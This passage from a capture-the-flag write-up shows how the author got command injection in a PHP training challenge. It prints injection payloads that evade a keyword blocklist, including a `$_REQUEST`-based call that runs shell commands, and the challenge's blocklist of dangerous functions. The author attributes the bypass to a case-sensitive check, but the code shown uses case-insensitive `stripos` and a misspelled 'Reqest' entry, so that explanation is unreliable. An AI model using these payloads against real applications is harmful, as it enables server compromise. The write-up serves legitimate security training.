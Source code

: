 We found the flag file`never_find_flag.txt`, we can go and read it from there- But that's not interesting at all, I want to dive more and cat it using the command injection.
If we try to read the file with `";$v="syste"."m";$v("cat never_find_flag.txt");//` we will get `The name is too long` response and if we somehow shrink the length for example using `cat *txt` we are going to get `Try Harder` because `cat` is blocked.



We need to get rid of these restrictions, after looking into PHP builtin variables I thought of using different request parameters, `$_GET` and `$_POST` are blocked, I tried `$_REQUEST` and it worked, and using this payload we kind of got unintended bling bling 🙂 `";$_REQUEST[1]($_REQUEST[2]);//&1=system&2=ls; cat never_find_flag.txt ; id`

![ncsc-training-backdoor-06](/assets/images/ncsc-training-writeups/ncsc-training-2024-backdoor-06.png)

I also checked the challenge source code, and the `$_REQUEST` was unintended because `Request` was one of the blocked keywords, though the used function to check was case-sensitive which allowed me to have this unintended solution.

```php
<?php
$dangerousFunctions = array('str_rot13', 'assert', 'include', 'copy', 'rename', 'Reqest', 'GET', 'POST', 'print', 'exec', 'shell_exec', 'popen', 'system', 'touch', 'echo', 'mv', 'cp', 'sed', '``', 'passthru', 'proc_open', 'while', 'read ', '>', '<', 'nano', 'vi', 'vim', 'fopen', 'fgets', 'fgetc', 'file_get_contents', 'fwrite', 'file_put_contents', 'curl_exec', 'curl_multi_exec', 'parse_ini_file', 'sleep', 'rm', 'mkdir', '}', 'show_source', 'symlink', 'apache_child_terminate', 'apache_setenv', 'define_syslog_variables', 'escapeshellarg', 'escapeshellcmd', 'eval', 'pcntl_exec', 'posix_kill', 'posix_mkfifo', 'posix_setpgid', 'posix_setsid', 'posix_setuid', 'posix_uname', 'proc_close', 'proc_get_status', 'proc_nice', 'proc_terminate', 'putenv', 'register_shutdown_function', 'register_tick_function', 'ini_set', 'set_time_limit', 'set_include_path', 'header', 'mail', 'readfile', 'file_get_contents', 'file_put_contents', 'unlink', 'cat', 'tail', 'head', 'more', 'less', 'dd', 'od', 'xxd', 'hexdump', 'file', 'awk', 'nano', 'vim', 'iconv', 'strings', 'rev', '|');

$name = $_GET['name'];
if (strlen($name) > 36) {
    die("The name is too long.");
}

foreach ($dangerousFunctions as $func) {
    if (stripos($name, $func) !== false) {
        die("Try Harder ;)");
    }
}
?>
```